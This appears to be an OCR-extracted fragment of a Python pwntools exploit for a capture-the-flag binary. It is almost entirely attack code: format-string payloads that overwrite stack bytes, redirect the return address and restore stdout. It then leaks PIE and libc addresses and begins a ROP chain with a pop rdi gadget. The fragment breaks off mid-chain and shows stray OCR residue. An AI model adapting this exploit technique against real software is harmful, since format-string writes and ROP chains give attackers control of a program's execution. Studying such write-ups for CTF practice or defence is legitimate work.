 ```
        .text:0000000000000CEB                 mov     edi, 0          ; fd
        .text:0000000000000CF0                 call    read
        '''
        payload = "A" * ((stack_addr - 0x8) &amp; 0xFF) + "%6$hhn"
        p.sendline(payload)
        # payload = "A" * ((('''_base(_proc)'''0x5000 + 0xCDF) &amp; 0xFF00) &gt;&gt; 8) + "%10$hhn"
        payload = "A" * ((0x5000 + 0xCDF) &amp; 0xFF) + "%10$hhn" # bruteforce 4 bits
        p.sendline(payload)
        payload = "A" * ((stack_addr - 0x7) &amp; 0xFF) + "%6$hhn"
        p.sendline(payload)
        # payload = "A" * (((_base(_proc) + 0xCDF) &amp; 0xFF00) &gt;&gt; 8) + "%10$hhn"
        payload = "A" * (((0x5000 + 0xCDF) &amp; 0xFF00) &gt;&gt; 8) + "%10$hhn"
        p.sendline(payload)

        # set return address (PIE + 0xF3D)
        payload = "A" * ((stack_addr + 0x10) &amp; 0xFF) + "%6$hhn" 
        p.sendline(payload)
        payload = "A" * 0x3D + "%10$hhn"
        p.sendline(payload)

        # set old rbp
        payload = "A" * ((stack_addr - 0x18) &amp; 0xFF) + "%6$hhn"
        p.sendline(payload)
        payload = "A" * ((stack_addr - 0x58) &amp; 0xFF) + "%10$hhn"
        p.sendline(payload)

        # set gadget ret
        # pause()
        payload = "A" * 0x3C + "%14$hhn"
        p.sendline(payload)

        # set stdout-&gt;_fileno = 2
        p.sendline("\x02")
        p.sendline("")
        p.recvuntil("Come in quickly, I will close the door.\n")

        # now the output has been recovered
        # leak PIE and libc
        p.sendline("%7$p%12$p")
        p.recvuntil("0x")
        PIE_base = int(p.recv(12), 16) - 0xf96
        p.recvuntil("0x")
        libc_base = int(p.recv(12), 16) - libc.sym['__libc_start_main'] - 240

        # leave a specific stack address at stack (for follwing fsb exploit)
        payload = "%" + str((stack_addr - 0x8) &amp; 0xFFFF) + "c%14$hn"
        p.sendline(payload)

        # set rop to control rdi and jump to:
        '''
        .text:0000000000000F21                 call    sub_CCD
        '''
        # this will help to read orw gadgets to stack 
        payload = "%" + str((PIE_base + 0x1053) &amp; 0xFFFF) + "c%10$hn"
        payload += "%" + str((stack_addr - 0x8 + (0x100 - ((PIE_base + 0x1053) &amp; 0xFF))) &amp; 0xFF) + "c%13$hhn"
        payload += "%" + str((0x21 + (0x100 - ((stack_addr - 0x8) &amp; 0xFF))) &amp; 0xFF) + "c%40$hhn"
        # pause()
        p.sendline(payload)

        pop_rdi = libc_base + 0x0000000000021112 # pop rdi ; ret
```
